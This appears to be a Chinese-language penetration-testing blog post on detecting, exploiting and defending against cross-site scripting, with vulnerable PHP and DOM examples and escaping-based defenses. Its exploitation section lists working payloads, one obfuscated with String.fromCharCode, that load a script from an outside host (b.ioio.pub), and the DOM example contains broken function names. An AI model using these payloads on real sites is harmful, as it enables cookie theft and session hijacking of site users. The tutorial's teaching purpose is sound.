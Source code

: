 +++
date = "2016-07-15T16:30:54+08:00"
description = ""
draft = false
tags = ["xss"]
title = "XSS漏洞挖掘与利用"
topics = ["Pentest","XSS"]

+++

### 0x00 XSS的检测
> 检测XSS一般分两种方法：一种是手工检测、一种是软件自动检测  
手工检测：检测结果准确，但对于大型web来说费时费力  
软件检测：方便省力，但存在误报，且有些隐蔽的XSS无法检测出  
<font color="FF0000">检测XSS最重要的就是考虑哪里有输入，输入的数据在哪里输出</font>
#### 1. 手工检测
```
可得知输出位置:
    • 输入敏感字符，如“<、>、"、'、()”等，然后在提交后查看html源代码，看这些字符是否被转义。
    • 在输出这些字符时，程序可能已经进行了过滤，可以输入“AAAAAA<>"&'()”字符串，然后查找AAAAAA或许比较方便。
无法得知输出位置:
    很多web应用程序源码不公开，在测试时不能得知输出位置，比如，有些留言版在留言后必须经过管理员审核才能显示，无法得知数据在后台管理页面处于何种状态，如：
    在标签中：<div>XSS Test</div>
    在属性内：<input type="text" name="content" value="XSS Test" />
    这种情况通常采用输入"/>XSS Test来测试。
```
#### 2. 全自动检测XSS
如APPSCAN、AWVS、Burp Suite等软件都可以有效的检测XSS，他们还会检测其他的漏洞，但是他们的效率不如专业的XSS检测工具高。  
专业的XSS扫描工具有知名的XSSER、XSSF等，还有专门扫描DOM类型XSS的web服务(www.domxssscanner.com)。  
一般要手工和软件一起使用，因为有些XSS软件不能检测，比如有些留言需要输入验证码等，工具无法做到。

### 0x01 XSS的挖掘与利用
* XSS漏洞挖掘
```
反射型XSS：
    一般是url参数中的值能够回显到HTML中，且url的参数值没有过滤或过滤不严
存储型XSS：
    可以提交内容
    提交的内容可被管理员或其他用户看到
    提交的内容没有被过滤或过滤不严
```

* XSS漏洞利用
XSS一般就是闭合标签，和SQL注入类似，常见payload如下：
```
• <script src='http://b.ioio.pub/xss/probe.js'></script>
• <img src=x onerror="s=createElement('script');body.appendChild(s);s.src='http://b.ioio.pub/xss/probe.js'";>
• <svg onload=s=createElement('script');body.appendChild(s);s.src='http://b.ioio.pub/xss/probe.js>
• <svg onload=eval(String.fromCharCode(115,61,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,
    114,105,112,116,39,41,59,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,115,41,59,
    115,46,115,114,99,61,39,104,116,116,112,58,47,47,98,46,105,111,105,111,46,112,117,98,47,120,115,115,47,
    112,114,111,98,101,46,106,115)) >
```

### 0x03 XSS简单示例
> ```
反射型xss简单示例:
    • <?php
          echo $_GET['x'];
      ?>
    • 提交：
      /xss.php?x=<script>alert(1)</script>
    • 服务端解析时就会触发弹窗
```
```
下面是一段经典的DOM型XSS示例：
<script>
    var temp = document.URL; //获取URL
    var index = document.URL.indexOf("content");
    var par = temp.substrint(index);
    document.write(decodeURL(par)); //输入获取内容
</script>
上述代码的意思是获取URL中content参数的值，并且输出，若输入http://www.xxx.com/dom.html?content=<script>alert(/xss/)</script>，就会产生XSS漏洞。
```
```
只要在script标签中添加JavaScript代码，就能实现一些“特殊效果”，但通常在真实攻击中
一般使用<script src="http://www.xxx.com/a.txt"></script>的方式来加载外部脚本，
a.txt中就存放着恶意脚本。

注：JavaScript加载的脚本文件可以是任意扩展名，甚至没有也行，只要加载的文件中含有
    JavaScript代码就会被执行。
```

### 0x04 XSS的防御
* 过滤输入与输出(重点)

> 使用htmlspecialchars()和htmlentities()将一些预定义的字符转换为HTML实体
```
<?php
    @$html = $_GET['x'];
    if ($html){
        echo htmlspecialchars($html);
    }
?>
```

* HttpOnly

> ```
HttpOnly并不能防御XSS，但它能解决XSS漏洞后面的Cookie劫持攻击，防止XSS会话劫持
```